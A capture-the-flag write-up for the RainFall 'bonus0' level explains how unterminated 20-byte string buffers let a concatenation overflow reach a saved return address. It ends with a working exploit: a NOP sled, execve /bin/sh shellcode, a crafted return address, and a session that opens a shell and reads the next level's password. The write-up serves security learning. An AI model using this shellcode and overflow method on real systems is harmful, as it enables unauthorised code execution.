

1. cf source.c :
    - in the main, we have a buffer of 50 bytes. This buffer's address is given as argument to a call to the pp() function.
    - Then, through a first call to p(), a first user input is copied into the str1 buffer, up to 20 characters. **If the input is longer than 20 bytes, there is no `\0` at the end of the str1 buffer. Note : the user input is first stored in a 4096 bytes long buffer in p()**
    - Then, a second call to p() asks for a second user input, and copies the newly provided input to a second buffer, **str2**, which starts right after the **str1** buffer in memory (`disas pp` => first buffer is at address `ebp-0x30` (line<+16>) and second buffer is at addres `ebp-0x1c` (line<+35>) so 20 bytes after first buffer). **Note : The second user input is first stored in the same 4096 bytes in p() -> it erases the first bytes occupied by the first user input***
    - Then, the str1 buffer is copied to the buffer in the main() => **!!!! Note that if there is no `\0` at the end of str1, bytes are copied up to `\0`! So this might include str2; and if str2 is not null terminated as well, some further random bytes up to a NULL byte!!**
    - Then, at the end of the buffer in main (which might be str1 only if null terminated, str1+str2 if str2 is null terminated but not str1, or str1+str2+random bytes if str1 and str2 are not null terminated) => the `\0` is replaced with a space and then a `\0` is appended.
    - Finally, the **str2** buffer is appended to the buffer in main, and the whole buffer is printed to stdout.

2. What are the different cases of content in the main buffer?
    - **str1 + space + str2** -> if both str1 and str2 are null terminated so if both user inputs are less than 20 characters long
    - **str1 + str2 + space + str2** -> if str1 is not null terminated (i.e. if first user input is 20 characters or longer) but str2 is null terminated (2nd user input shorter than 20 characters long)
    - **str1 + str2 + some bytes + str2 + some bytes** -> both str1 and str2 are not null terminated. Note that random bytes contains the value of main base pointer (because str1 and str2 are located just above it) and next instruction of main :

    


3. What could be the exploit?
    - We know that str1 and str2 buffers in pp() are 20 bytes long maximum, so we can't corrupt the next instruction of the main function.
    - The buffer in the main function is the one which is not protected and can go beyond 40 characters (if str1 is not null terminated)! => we could exploit this vulnerability to erase the value stored as next instruciton of the `_libc__start_main` function.
    - We can store our 45 bytes shellcode in the large 4096 bytes buffer in the p() function, and make the $eip of _libc_start_main points to an address in this same buffer, before the shellcode, where some addresses are filled up with NOP instructions


4. Constructing our arguments for the exploit:
    - The buffer in main is 50 bytes long, so the next instruction in the `_libc_start_main` function is located 54 bytes after the beginning of the main buffer. So we need our buffer to be filled with at least 58 bytes. This is higher than 40 bytes so our first input must be more than 20 bytes long (str1 will not be null terminated).
    - The fisrt argument will be used to fill up the large buffer in p() with NOP instructions and our shellcode.
    - We want to control the length of what will be stored in the buffer, to make sure the address we enter via the 2nd input falls exactly 54 bytes after the start of the buffer => so our 2nd inpu must be less than 20 bytes long => then the next character would be the space, and we know that the buffer is filled up with exactly 40 bytes before appending str2!
    - Hence, as str2 will be appended starting byte 41, it should contain 14 random bytes + address inside the NOP suite of instructions in the large buffer (after the 20th caracter as values before have been replaced by the 2nd user input). **It makes 18 characters so we need to add a random character to make it 19 => the 20th bytes will then be set to null and replaced with the space character. This will make our main buffer exactly 40 characters long before call to strcat**
    - So in our main buffer we will have : str1 + str2 + space + str2, and at byte 54 we will have the address in the NOP suite of instructions.
    - As the first 20 bytes of the large buffer will be filled with 2nd user input, and gdb sets a couple of env variables which makes a small discrepancy of stack hard addresses inside gdb vs. execution outside gdb, we will use a quite large number of NOP instructions (1000) to make sure the next instruction after main points to somewhere in the middle.


5. Finding the address of the large buffer :

    - `disas p`
    - Line<+28> => instruction `0x080484d0` => buffer starts at `ebp-0x1008`
    - breakpoint : `b *0x080484d0`
    - at breakpoint : `x/wx $ebp-0x1008` => `0xbfffe640` => address of start of buffer.
    - We will make next instruction of `_libc_start_main` points to somewhere between `0xbfffe640 + 20 bytes` and `0xbfffe640 + 1000 bytes` => `0xbfffe840` or 512 bytes after start of buffer


6. Arguments of the exploit :
    - arg1 = 1000 * NOP instruction + shellcode = `python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
    - arg2 = 14 bytes + address inside NOP suite of instructions in large buffer + 1 byte = `python -c 'print("A"*14 + "\x04\xe8\xff\xbf" + "B")'`


7. The exploit:

```
bonus0@RainFall:~$ (python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")' ; python -c 'print("A"*14 + "\x04\xe8\xff\xbf" + "B")' ; cat) | ./bonus0
 -
 -
��������������������AAAAAAAAAAAAAA���B AAAAAAAAAAAAAA���B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```